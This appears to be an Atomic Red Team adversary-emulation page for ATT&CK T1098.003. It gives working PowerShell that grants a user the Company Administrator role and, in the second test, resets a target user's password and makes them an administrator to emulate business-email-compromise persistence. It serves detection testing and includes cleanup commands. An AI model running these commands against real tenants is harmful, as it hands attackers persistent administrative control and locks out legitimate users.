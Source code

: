 # T1098.003 - Account Manipulation: Additional Cloud Roles
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/003)
<blockquote>An adversary may add additional roles or permissions to an adversary-controlled cloud account to maintain persistent access to a tenant. For example, adversaries may update IAM policies in cloud-based environments or add a new global administrator in Office 365 environments.(Citation: AWS IAM Policies and Permissions)(Citation: Google Cloud IAM Policies)(Citation: Microsoft Support O365 Add Another Admin, October 2019)(Citation: Microsoft O365 Admin Roles) With sufficient permissions, a compromised account can gain almost unlimited access to data and settings (including the ability to reset the passwords of other admins).(Citation: Expel AWS Attacker)
(Citation: Microsoft O365 Admin Roles) 

This account modification may immediately follow [Create Account](https://attack.mitre.org/techniques/T1136) or other malicious account activity. Adversaries may also modify existing [Valid Accounts](https://attack.mitre.org/techniques/T1078) that they have compromised. This could lead to privilege escalation, particularly if the roles added allow for lateral movement to additional accounts.

For example, in AWS environments, an adversary with appropriate permissions may be able to use the <code>CreatePolicyVersion</code> API to define a new version of an IAM policy or the <code>AttachUserPolicy</code> API to attach an IAM policy with additional or distinct permissions to a compromised user account.(Citation: Rhino Security Labs AWS Privilege Escalation)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure AD - Add Company Administrator Role to a user](#atomic-test-1---azure-ad---add-company-administrator-role-to-a-user)

- [Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role](#atomic-test-2---simulate---post-bec-persistence-via-user-password-reset-followed-by-user-added-to-company-administrator-role)


<br/>

## Atomic Test #1 - Azure AD - Add Company Administrator Role to a user
Add an existing Azure user account the Company Administrator Role.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 4d77f913-56f5-4a14-b4b1-bf7bb24298ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| target_user | Name of the user who will be assigned the Company Admin role | string | default|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name MSOnline -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Force
```




<br/>
<br/>

## Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role
This test looks at simulating the an adversary described in the following blog post. It involves resetting the password of a normal user and adding to the company administrator role within M365.
 Reference: https://www.huntress.com/blog/business-email-compromise-via-azure-administrative-privileges

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 14f3af20-61f1-45b8-ad31-4637815f3f44





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| auth_username | Azure AD username used to conduct the adversary activity | string | jonh@contoso.com|
| auth_password | Azure AD password for user auth_username | string | p4sswd|
| target_user | Name of the user whose password be reset and added to the admin role. | string | default|
| target_password | The password that the user target_user will be reset to. | string | Ohn05GeMe#$|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
Import-Module AzureAD
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
$targetsecurepw = ConvertTo-SecureString -String "#{target_password}" -AsPlainText -Force
Connect-MsolService -Credential $credential -ErrorAction:SilentlyContinue
Connect-AzureAD -Credential $credential -ErrorAction:SilentlyContinue

#Saving the ObjectId of the target_user into a variable
$target_objid = Get-AzureADUser -filter "userPrincipalName eq '#{target_user}'" | Select-Object -ExpandProperty ObjectId

#Reset the password of the target_user
Set-AzureADUserPassword -ObjectId  $target_objid -Password $targetsecurepw -ErrorAction:SilentlyContinue

#Adding target_user
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
Add-MsolRoleMember -RoleName "Global Reader" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Import-Module MSOnline
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-MsolService -Credential $credential
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
Remove-MsolRoleMember -RoleName "Global Reader" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline and AzureAD modules must be installed.
##### Check Prereq Commands:
```powershell
$required_mods = 'AzureAD', 'MSOnline'
$installed_mods = @((Get-Module $required_mods -ListAvailable -ErrorAction SilentlyContinue).Name  | Select-Object -Unique)
$notInstalled = Compare-Object $required_mods $installed_mods -PassThru -ErrorAction SilentlyContinue

if ($notInstalled) {
# Prompt for installing the missing ones.
Write-Output "The following PS modules aren't currently installed:"
$notInstalled
  exit 1
}

 else{
  Write-Output "All required PS modules are installed"
  exit 0
 }
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Scope CurrentUser -Force
Install-Module -Name AzureAD -Scope CurrentUser -Force
```




<br/>
